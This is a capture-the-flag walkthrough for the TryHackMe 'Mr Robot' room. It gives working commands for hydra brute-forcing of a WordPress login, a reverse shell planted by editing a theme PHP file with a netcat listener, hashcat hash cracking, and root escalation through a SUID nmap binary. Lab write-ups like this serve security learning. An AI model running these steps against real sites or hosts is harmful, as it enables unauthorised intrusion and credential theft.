

# Mr Robot CTF THM writup
## 1. Recon:
```
nmap -sV 10.10.8.136
```
initial nmap scan shows that the machine has 2 ports open, http and https <br>
<br>
it is generally a good idea to check out the robots.txt file when inspecting a website <br>
if we go to the robots.txt page of the site, we get the following contents: <br>
<br>
And behold! there are 2 contents in this file, fsocity.dic, and key-1-of-3.txt <br>
if we access the second file, we get our first flag without any problem <br>

The second file (fsocity.dic) seems to be a wordlist that seems to be containing words from the Mr. Robot series. <br>
lets run dirbuster now to fuzz the website. <br>
<br>
we find that there is a wordpress login portal that can be accessed on the machine. lets go on the site and capture a sample request <br>
<br>
## 2. Gaining access
we can see that the site gives us an error of Invalid Username. seeing which, the only logical thing to do seems to enumerate users from the wordlist given to us. <br>

```
hydra -p huh -L /tmp/mozilla_kali0/fsocity.dic 10.10.8.136 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.8.136%2Fwp-admin%2F&testcookie=1:Invalid username."
```
Bingo! we get a hit. <br>
<br>
Now that we have our username, lets try bruteforcing the password using the same wordlist <br>
```
hydra -l Elliot -P /tmp/mozilla_kali0/fsocity.dic 10.10.68.41 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.68.41%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
bruteforcing turns out to be fruitful, we are able to log in using the given found credentials! <br>

Now that we have gained access to the wordpress account, we can upload a reverse shell to the machine. <br>
lets set up the listener using:
```
nc -lvnp <port in webshell>
```
Lets try uploading a reverse shell using the file upload section. <br>
on trying that we find out that php files are not permitted to be uplaoded on the machine. <br>
A workaround for this is to alter pre-existing php files and accessing them. we can go to the appearances tab and edit any of the php files. <br>
we edit the page.php file and replace its contents with the contents of a reverse php shell script <br>
after a little bit of fiddling around, we find that the URL where the php file is stored is: <machine IP>/wp-content/themes/twentyfifteen/ <br>
typing out the URL in the browser spawns a reverse shell in our listener <br>
<br>
## 3. stealing data
now that we have spawned a reverse shell into the machine, we can look around and try to find flags.
```
cd /home/robot
ls
```
we find 2 files in this directory <br>
<br>
we are unable to read the contents of the key text file, however, we are able to read the contents of the md5 file. we can try bruteforcing the md5 hash. I will be using a custom google colab script I have written for fast bruteforcing. It is available in my hacking tools repo on my github. <br>
```
!hashcat -m 0 -a 0 'c3fcd3d76192e4007dfb496cca67e13b' rockyou.txt
```
<br>
we have the credentials for the user 'robot'. in order to log in as this user, we have to upgrade this simple shell to an interactive shell. to do that, execute:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
now that out interactive shell has been spawned, we can log in as robot using:
```
su robot
```
and then enter the password that was extracted earlier <br>
new we can easily read the contents of the key-2-of-3.txt file to obtain the second flag. <br>
## 3. Escalating privileges
Let us try looking for any binaries that have suid permissions that we can exploit <br>
```
find / -perm +6000 | grep '/bin/'
```
<br>
after some trial and error (searching on GTFObins), we find that the nmap binary can be exploited to elevate privileges. <br>
we run the commands we find on GTFObins:
```
nmap --interactive
!sh
```
we have now gained elevated priveleges and if we run whoami command we will find that we are the root user. <br>

we can now easily move to the root folder and find the third key lying there for us to grab. <br>

with this we clear the room.<br>

